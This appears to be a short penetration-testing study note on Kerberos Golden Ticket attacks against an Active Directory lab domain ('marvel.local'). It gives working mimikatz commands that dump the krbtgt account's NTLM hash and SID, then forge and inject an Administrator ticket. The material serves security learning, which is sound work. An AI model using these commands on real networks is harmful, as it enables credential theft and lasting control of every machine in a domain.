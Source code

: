 # Golden Ticket Attacks

With a Kerberos Ticket-granting Ticket (`krbtgt`) we can request access to any
ressource and machine on the domain using the ticket-granting service. We can
get shells on all of the machines and access all files and folders.

After starting `mimikatz.exe`, we enter `privilege::debug` followed by
`lsadump::lsa /inject /name:krbtgt` using the `name` parameter to make sure
that we only pull data on the user `krbtgt`.

<img src="./images/4_Golden_Ticket_Attacks_1.png" alt="Golden Ticket Attacks" width="800"/>

We copy the `SID (S-1-5-21...)` and the `NTLM (9381...)` hash into a notepad
file. We do not need the other information.

The command to retrieve the Golden Ticket is

```
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1489142520-1265584170-3633136899 /krbtgt:938102c5d3c2c7e1ddc0ed42952f52d2 /id:500 /ptt
```
